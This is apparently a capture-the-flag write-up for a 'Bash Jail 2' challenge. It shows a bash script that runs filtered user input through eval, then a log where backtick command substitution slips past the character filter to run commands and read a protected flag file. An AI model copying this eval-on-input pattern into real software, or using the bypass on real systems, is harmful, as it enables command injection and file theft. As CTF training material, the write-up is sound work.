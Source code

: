 # Bash Jail 2


BASH Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

```bash
Challenge bash code:
-----------------------------

function check_space {
    if [[ $1 == *[bdks';''&'' ']* ]]
    then
            return 0
    fi

    return 1
}

while :
do
    echo "Your input:"
    read input
    if check_space "$input"
    then
        echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
        output="echo Your command is: $input"
        eval $output
    fi
done

-----------------------------

```

```bash
Your input:
lol
Your command is: lol
Your input:
lol  2
Restricted characters has been used
Your input:
</home/level2/flag.txt
Your command is:
Your input:
`ls
Restricted characters has been used
`whoami`
Your command is: level2
Your input:
`</home/level2/flag.txt`
Your command is: FLAG-*****
```
